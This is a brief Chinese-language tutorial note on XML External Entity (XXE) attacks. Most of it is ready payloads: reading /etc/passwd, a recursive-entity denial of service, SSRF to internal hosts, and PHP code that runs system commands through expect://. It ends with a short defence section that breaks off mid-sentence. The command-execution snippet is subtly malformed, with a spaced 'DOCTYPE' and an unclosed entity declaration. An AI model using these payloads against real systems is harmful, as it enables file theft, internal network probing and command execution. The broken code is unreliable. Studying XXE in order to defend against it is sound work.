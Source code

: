 # XXE

## 简介

XXE，XML External Entities。当XML解释器允许引用外部实体时，可以通过构造恶意XML内容，导致任意文件读取、执行系统命令、探测内网、攻击内网网站等等。一般XXE攻击基于回显或者报错才能进行，但是也可以通过Blind XXE的方式实现攻击。

## 利用

端口扫描，通过DTD盗取文件，RCE，钓鱼。

```js
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```

**拒绝服务攻击**

通过递归引用实体，超过XML解释上限达到拒绝服务的目的。

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos">
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
]>
```

**任意文件读取**

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**SSRF**

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "http://private">
]>
<data>&file;</data>
```

**执行系统命令**

在安装了expect扩展的PHP环境中：

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<! DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "expect://id"
]>
<x>&xxe;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

**探测内网端口**

攻击内网网站

## 防御

使用开发语言提供的禁用外部实体的方法，如PHP的libxml_disable_entity\_loader\(true\);

过滤用户提交的XML数据，关键词PUBLIC SYSTEM，



